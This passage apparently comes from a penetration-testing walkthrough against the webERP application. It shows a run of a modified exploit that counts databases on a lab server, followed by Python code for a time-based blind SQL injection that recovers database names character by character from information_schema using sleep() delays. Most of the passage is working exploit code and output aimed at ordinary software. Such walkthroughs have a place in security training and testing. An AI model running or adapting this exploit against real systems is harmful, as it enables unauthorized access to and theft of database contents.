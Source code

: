 Now we execute our modified exploit.

```
kali@kali:~/Desktop/sqliWebERp$ python sqli_num_of_db.py 192.168.100.72 "weberp/" admin weberp 0
number of databases on server: 3
```

We have confirmed that there are 3 databases on the server.

Now we will modify our exploit to reveal the names of each database.

```
def checkForDbName(index, currentDbName):
    payload = generatePayload("0", "-13.37' or IF((SELECT SUBSTRING(SCHEMA_NAME, 1, "+str(len(currentDbName))+")='"+ currentDbName +"' FROM information_schema.SCHEMATA  LIMIT "+ str(index) +", 1 ), sleep(0.05),FALSE) or '2'='1")
                
    
    t1 = time.time()
    runExploit(cookies, "GARUMPAGE", payload, proxies)
    t2 = time.time()

    if (t2-t1>0.5):
        return True
    else:
        return False
    
    

if __name__ == "__main__":
    TOTAL_TIME =time.time()
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()

    ip = sys.argv[1] + "/" + sys.argv[2]
    cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
    addSupplierID("GARUMPAGE", cookies, proxies)
    
    chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ$_'
    namesOfDatabases = []
    numberOfDbs = 3;
    
    for i in range(numberOfDbs):
        currentDbName='0'
        if checkForDbName(i, 'information_schema'):
            namesOfDatabases.append('information_schema')
            print "Finally, database #"+str(i+1)+" on server: information_schema"
            continue;
        flagNoMoreChars = False
        while (not flagNoMoreChars):
            for j in range(len(chars)):
                currentDbName = currentDbName[:len(currentDbName)-1] + chars[j]
                if checkForDbName(i, currentDbName):
                    print "database #"+str(i+1)+" on server: " + currentDbName +"...";
                    currentDbName= currentDbName + '0'
                    flagNoMoreChars = False
                    break;
                else:
                    flagNoMoreChars = True
```